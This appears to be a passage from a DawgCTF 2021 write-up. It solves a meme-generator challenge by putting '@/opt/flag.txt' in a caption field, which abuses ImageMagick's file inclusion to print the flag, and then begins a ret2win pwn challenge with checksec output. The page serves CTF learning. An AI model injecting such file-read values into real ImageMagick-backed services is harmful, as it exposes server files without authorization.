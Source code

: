 ### Solution

This last message hints at a likely issue or escape for the ImageMagick caption command.

I read the ImageMagick documentation on `caption` and found text can be included from files using `@`. A few minutes of experimenting later, the following MDL printed the flag on the generated image:

```js
{
    version: "MDL/1.1",
    type: "meme",
    base: {
        format: "Meme.Matrix.WhatIfIToldYou"
    },
    caption: {
        topText: "what if i told you",
        bottomText: "@/opt/flag.txt"
    }
}
```

![Flag on the Meme](/assets/images/2021-dawg-ctf/MDL-flag.png){:.align-center}

## 3. Bofit PWN Challenge

Bofit was a simple ret2win challenge with a slight twist.

> Because Bop It is copyrighted, apparently
> `nc umbccd.io 4100`
> Author: trashcanna

### Process

Run checksec to see architecture and security measures on binary.

```bash
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
